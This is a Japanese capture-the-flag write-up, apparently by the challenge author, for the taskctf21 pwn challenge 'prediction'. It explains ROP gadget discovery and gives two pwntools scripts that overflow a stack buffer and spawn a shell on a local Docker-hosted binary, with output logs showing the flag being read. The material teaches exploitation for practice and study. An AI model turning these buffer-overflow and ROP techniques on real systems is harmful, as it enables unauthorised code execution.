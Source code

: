 ## 事前知識
### ROP
Return Oriented Programmingの略で、小さな命令を組み合わせて色々とやる方法です。wani-hackaseのnop func callが勉強用に素晴らしいのでぜひ参照してみてください。

https://github.com/wani-hackase/wanictf2020-writeup/tree/master/pwn/06-rop-func-call#%E8%A7%A3%E6%B3%95

### checksec

```bash
$ checksec dist/prediction
[*] '/home/user/work/taskctf21-public/pwn/prediction/dist/prediction'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 方針
- system, binshのアドレスを見つける
- `pop rdi`と`pop rdi`を探す
- 組み立てる

## 解法
サーバの起動

```bash
docker-compose up -d
```

### systeとbinshが配置されたアドレスを見つける

```bash
$ objdump -d -M intel dist/prediction  | grep system
0000000000401120 <system@plt>:
  401124:       f2 ff 25 15 2f 00 00    bnd jmp QWORD PTR [rip+0x2f15]        # 404040 <system@GLIBC_2.2.5>
  4013fe:       e8 1d fd ff ff          call   401120 <system@plt>
$ objdump -d -M intel dist/prediction  | grep binsh
  4013f7:       48 8d 3d 7a 2c 00 00    lea    rdi,[rip+0x2c7a]        # 404078 <binsh>
```

### pop rdiとpop rsiが配置されたアドレスを見つける

```bash
$ ROPgadget --binary ./dist/prediction  | grep "pop rdi"
0x0000000000401493 : pop rdi ; ret
$ ROPgadget --binary ./dist/prediction  | grep "pop rsi"
0x0000000000401491 : pop rsi ; pop r15 ; ret
```

### exploit

```python
from pwn import *

io = remote("127.0.0.1", 30006)

print(io.readuntil("?"))

addr_system_plt = 0x401120
addr_binsh = 0x404078
addr_pop_rdi = 0x401493
addr_pop_rsi_pop = 0x401491

s = b"taskctf{" + b"A" * 48
s += p64(addr_pop_rdi)
s += p64(addr_binsh)
s += p64(addr_pop_rsi_pop)
s += p64(0)
s += p64(0)
s += p64(addr_system_plt)

io.sendline(s)
io.interactive()

"""
$ python3 solver/solve.py 
[+] Opening connection to 127.0.0.1 on port 30006: Done
/home/user/.local/lib/python3.8/site-packages/pwnlib/tubes/tube.py:1433: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  return func(self, *a, **kw)
b'What is the flag?'
[*] Switching to interactive mode

***start stack dump***
0x7fffffffebd0: 0x7b6674636b736174 <- rsp
0x7fffffffebd8: 0x4141414141414141
0x7fffffffebe0: 0x4141414141414141
0x7fffffffebe8: 0x4141414141414141
0x7fffffffebf0: 0x4141414141414141
0x7fffffffebf8: 0x4141414141414141
0x7fffffffec00: 0x4141414141414141 <- rbp
0x7fffffffec08: 0x0000000000401493 <- return address
0x7fffffffec10: 0x0000000000404078
0x7fffffffec18: 0x0000000000401491
0x7fffffffec20: 0x0000000000000000
***end stack dump***

$ ls
flag
prediction
start.sh
$ cat flag
taskctf{r0p_1s_f4mous_way}$ 
[*] Interrupted
[*] Closed connection to 127.0.0.1 port 30006
"""
```

### 解法2
`system(binsh)`を読んでいる行があるので、そこに飛ばせば良かったですね......


```python
from pwn import *

io = remote("127.0.0.1", 30006)

print(io.readuntil("?"))

s = b"taskctf{" + b"A" * 48
s += p64(0x4013f7)

io.sendline(s)
io.interactive()

"""
$ python3 solver/solve2.py 
[+] Opening connection to 127.0.0.1 on port 30006: Done
/home/user/.local/lib/python3.8/site-packages/pwnlib/tubes/tube.py:1433: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  return func(self, *a, **kw)
b'What is the flag?'
[*] Switching to interactive mode

***start stack dump***
0x7fffffffebd0: 0x7b6674636b736174 <- rsp
0x7fffffffebd8: 0x4141414141414141
0x7fffffffebe0: 0x4141414141414141
0x7fffffffebe8: 0x4141414141414141
0x7fffffffebf0: 0x4141414141414141
0x7fffffffebf8: 0x4141414141414141
0x7fffffffec00: 0x4141414141414141 <- rbp
0x7fffffffec08: 0x00000000004013f7 <- return address
0x7fffffffec10: 0x0000000000000000
0x7fffffffec18: 0x00007ffff7df50b3
0x7fffffffec20: 0x00007ffff7fba6a0
***end stack dump***

$ ls
flag
prediction
start.sh
$ cat flag
taskctf{r0p_1s_f4mous_way}$ 
[*] Interrupted
[*] Closed connection to 127.0.0.1 port 30006
"""
```

## コメント
ROPを想定した問題でしたが、ログを見ているとsystem(binsh)のアドレスに飛ばしている方も多いようでした。

余談ですが、実はこの問題はbinshをbinlsにした上で、fsbでbinlsを書き換える問題にしようと思っていました。しかし、僕がPoCを書けなかったのでこの形態になりました。来年出すかもしれないですね。
